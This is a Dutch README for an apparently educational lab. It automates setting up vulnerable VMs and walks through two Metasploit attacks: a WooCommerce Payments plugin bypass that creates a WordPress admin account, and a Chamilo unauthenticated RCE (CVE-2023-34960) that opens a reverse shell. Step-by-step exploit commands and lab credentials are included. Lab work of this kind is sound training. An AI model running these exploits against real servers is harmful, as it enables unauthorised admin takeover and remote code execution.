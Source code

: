 # Readme voor onze exploits

Auteurs: Arthur Van Ginderachter, Jaak Daemen, Renz De Baets, Bert Coudenys

In deze readme gaan wij uitleggen hoe je de exploit van WordPress kan gebruiken om een Admin account te maken en toegang te krijgen met admin level access op een WordPress server.
En hoe je de exploit van Chamilo kan misbruiken.

## Scripts en bestanden nodig voor het opzetten van de omgeving.

We hebben de omgeving opzetten geautomatiseerd aan de hand van scripts zowel PowerShell als bash.
Binnen het .zip bestand zal u 8 bestanden vinden.

1. run_me.ps1
   - Dit PowerShell script is verantwoordelijk voor het opzetten van de 3 nodige VM's aan de hand van VBoxManage.
   - Dit PowerShell script zal ook de bash scripts uitvoeren en dus de volledige installatie automatiseren.
2. script1.sh
   - Dit bash script zal uitgevoerd worden door het run_me.ps1 script.
   - Dit bash script zal een databank en een WordPress server opzetten. Het zal ook de manuele installatie van WordPress overslaan en dit automatisch doen.
3. rootpromotie.sh
   - Dit bash script zal gekopieerd worden naar de kali linux machine en dan uitgevoerd worden door het run_me.ps1 script.
   - Dit bash script bevat commando's om ervoor te zorgen dat het root account geactiveerd wordt voor de Kali Linux vm.
4. guestupdate.sh
   - Dit script update de guest-additions van VirtualBox op de Ubuntu server (dit is nodig voor VBoxManage correct te kunnen gebruiken).
   - Dit bash script zal gekopieerd worden naar de Ubuntu server machine en dan uitgevoerd worden door het run_me.ps1 script.
5. woocommerce-payments.5.6.1.zip
   - Deze zip file bevat de verouderde en kwetsbare versie van een WooCommerce plugin.
   - BELANGERIJK! Pak deze zip NIET uit.
6. script2.sh
   - Dit bash script zal ook uitgevoerd worden door het run_me.ps1 script.
   - Het zal onze Chamilo omgeving opzetten met de datank en voert verdere configuraties uit.
7. chamilo.sql
   - Dit zal uitgevoerd worden door script2.sh.
   - Dit bestand zet de databank op voor Chamilo.
8. configuration.php
   - Dit zal uitgevoerd worden door script2.sh.
   - Dit PHP-bestand bevat PHP-code die wordt gebruikt om dynamische functionaliteit toe te voegen aan onze Chamilo webpagina.

Download ook deze drie .vdi files van [OSBoxes](https://www.osboxes.org/)

1. Download de "23.04 Lunar Lobster" [Ubuntu-Server](https://www.osboxes.org/ubuntu-server/)
2. Download de "2024.1" [Kali-Linux](https://www.osboxes.org/kali-linux/)
3. Download de "Debian 11 Bullseye" [Debain-server](https://www.osboxes.org/debian/)

Deze .vdi files mogen op uw toestel staan waar u wilt, maar hou de locatie goed bij. Pak nu beide .vdi's uit.

## Opzetten van de omgeving

1. In een administrator PowerShell venster voer eerst volgende commando's uit:

   ```powershell
   Set-ExecutionPolicy Unrestricted -Scope CurrentUser
   Set-ExecutionPolicy Unrestricted
   ```

   Deze dienen ervoor dat je straks root rechten krijgt bij het uitvoeren van "run_me.ps1".

2. Pak de .zip file die u gedownload heeft uit.
3. In de map "Shared-Folder" vindt u alle scripts. Voer enkel het "run_me.ps1" uit, dit via rechtermuisklik "Run with Powershell" (niet met PowerShell ISE).
4. Het script zal u vier absolute paden vragen. Onder andere van de drie .vdi bestanden als ook van de "Shared-Folder", dit is de map die u zojuist hebt gedownload en uitgepakt.

## Misbruiken van de exploit in WooComerce a.d.h.v. Metasploit

Na het opzetten van de werkomgeving kan u de exploit gebruiken om een admin level user toe te voegen.
Dit hebben wij gedaan via Metasploit.

Check of dat je de webpagina "arthurisgeenjaak.com" kan bereiken. Op "arthurisgeenjaak.com/wp-admin" inloggen kan met:arthur, wachtwoord: arthur

1. Open Metasploit op de Kali Linux en u zult een terminal te zien krijgen.
   In deze terminal kan u het volgende commando uitvoeren om de exploit te zoeken:

   ```bash
   search woocommerce
   ```

2. We zijn op zoek naar de exploit genaamd "auxiliary/scanner/http/wp_payments_add_user 2023-03-22". Gebruik voor het selecteren van de juiste exploit het commando:

   ```bash
   use #{numer van exploit. normaal 1}
   ```

3. Nu gaan we een aantal "set" commando's uitvoeren om Metasploit de correcte informatie te geven voor deze exploit. Om meer informatie te vinden over deze commando's en waarom ze nodig zijn kan je volgende commando's gebruiken:

   ```bash
   show options
   ```

   ```bash
   set RHOSTS arthurisgeenjaak.com
   set username #{Username van het nieuw admin account die u wilt maken}
   set password #{Password van het nieuw admin account die u wilt maken}
   ```

4. Ok, nu bent u klaar om de exploit effectief uit te voeren. Gebruik hiervoor het commando:

   ```bash
   exploit
   ```

5. Na het uitvoeren hiervan, zal er een nieuw account aangemaakt zijn op de WordPress server. Op "arthurisgeenjaak.com/wp-login.php" kan je dan met het aangemaakte account inloggen. Je kan hierdoor misbruik maken van deze exploit door dat je op de server kwaadaardige acties kan uitvoeren.

## Exploit van Chamilo

1. Op de Chamilo webpagina "jaakisgeenarthur.com" kan je inloggen met login: `admin`, wachtwoord: `Test123` dit kan je gewoon in een webbrowser doen.

Extra: als je ingelogd bent kan je controleren onder "Dashboard", dan onder het tablad "extensies" als je hieronder Chamilo "Rapid" ziet staan dan is de installatie succesvol.

2. Open Metasploit op de Kali Linux en zoek in de terminal naar de exploit van Chamilo.

```bash
   search chamilo
```

3. De exploit die we nodig hebben is "exploit/Linux/http/chamilo_unauth_rce_cve_2023_34960", om de juiste exploit te selecteren in de terminal van Metasploit gebruik je het commando:

```bash
use #{nummer van de exploit, normaal 0}
```

4. Om extra info te verkrijgen omtrent de commando's die je kan gebruiken in Metasploit, kan je het volgende commando gebruiken:

```bash
show options
```

5. Instellen van onze remote host:

```bash
set RHOST jaakisgeenarthur.com
```

6. Het huidige IP adres te zien van de Ubuntu server:

```bash
ip -a
```

7. Voor verbinding te maken met (onze) Chamilo server heb je het IP adres nodig van de Ubuntu server, omdat dit een reverse shell is.

```bash
set lhost #{IP adres}
```

8. Om de exploit uit te voeren, geef het volgende commando in:

```bash
exploit
```

9. Met het volgende commando kan je de configuratie van Chamilo bekijken.

```bash
pwd
ls
```
